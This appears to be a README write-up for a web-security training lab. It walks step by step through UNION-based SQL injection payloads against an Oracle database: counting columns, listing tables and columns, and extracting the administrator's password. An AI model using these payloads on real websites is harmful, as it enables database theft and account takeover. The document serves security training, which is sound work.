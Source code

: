 # SQL Injection Lab 06 - SQL injection attack, listing the database contents on Oracle

## Manual Solution

1. Access the lab in Web Security Academy
2. Determine the number of columns for UNION attack
   - Test: `/filter?category=Gifts' ORDER BY 1--`
   - Result: No error (at least 1 column exists)
   - Test: `/filter?category=Gifts' ORDER BY 2--`
   - Result: No error (at least 2 columns exist)
   - Test: `/filter?category=Gifts' ORDER BY 3--`
   - Result: Error (confirms 2 columns)

3. Verify column data types:
   - Test: `/filter?category=Gifts' UNION SELECT '1', '2' FROM dual--`
   - Result: Values '1' and '2' displayed (confirms string compatibility)

4. List the database contents:
   - Test: `/filter?category=Gifts' UNION SELECT NULL,table_name FROM all_tables --`
   - Result: List of tables in the database. There are many tables, we don't know which one has the username and password.

5. List the table like USERS% :
   - Test: `/filter?category=Gifts' UNION SELECT table_name,column_name FROM all_tab_columns WHERE table_name LIKE 'USERS_%' --`
   - Result: You'll see a table starts with users_... and its columns. Example: USERS_HZPHRO and its columns are PASSWORD_MZORWL and USERNAME_GZKLJS.

6. Extract the username and password:
   - Test: `/filter?category=Gifts' UNION SELECT [YOUR_COLUMN_NAME],[YOUR_COLUMN_NAME] FROM [YOUR_TABLE_NAME]--`
   - Result: administrator and password

7. Login to the administrator account

## Automated Solution

1. Download the script
2. Run the script with the following command: python sqli_lab_06.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)

